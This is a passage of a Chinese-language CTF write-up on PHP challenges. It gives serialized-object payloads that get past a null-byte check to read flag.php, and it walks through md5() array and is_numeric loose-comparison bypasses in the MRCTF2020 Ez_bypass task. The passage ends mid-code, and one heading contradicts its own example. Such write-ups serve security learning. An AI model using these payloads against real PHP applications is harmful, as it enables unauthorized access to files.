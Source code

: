 由于`%00`经过URL解码后不在规定范围之内，所以会被`is_vaild`拦截，这里网上的办法是：**利用大写S采用的16进制，来绕过is_valid中对空字节的检查。 //00 替换 %00 。**这里我也不能理解为什么最后要用S来代替s

最后payload：`O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:8:"flag.php";S:10:"\00*\00content";S:0:"";}`

**2. 解法二**

利用PHP7.1+对属性类型不敏感，直接将`protected`改为`public`，输出反序列字符串

payload：`O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}`

**3. 解法三**

PHP伪协议

## [MRCTF2020]Ez_bypass

这题考的还是PHP弱语言类型，考的还是比较简单

### 前置知识

**PHP md5函数绕过**

`md5()`无法处理数组，所以会直接返回null，具体可看上面的Easy MD5

```php
<?php
$str[] = 'a';
var_dump(md5($str));

# 输出
NULL
```

**is_numeric 无法检测纯数字字符串**

```php
<?php
var_dump(is_numeric('123456'));

# 输出
bool(true)
```

### 解题流程

```php
<?php
include 'flag.php';
$flag = 'MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if (isset($_GET['gg']) && isset($_GET['id'])) {
    $id = $_GET['id'];
    $gg = $_GET['gg'];
    # 绕过点1：md5 函数绕过，id 和 gg 都要是数组
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if (isset($_POST['passwd'])) {
            $passwd = $_POST['passwd'];
            # 绕过点2：要求 passwd 不是数字但是又要等于1234567
            if (!is_numeric($passwd)) {
                if ($passwd == 1234567) {
                    echo 'Good Job!';
                    highlight_file('flag.php');
                    die('By Retr_0');
                } else {
                    echo "can you think twice??";
                }
            } else {
```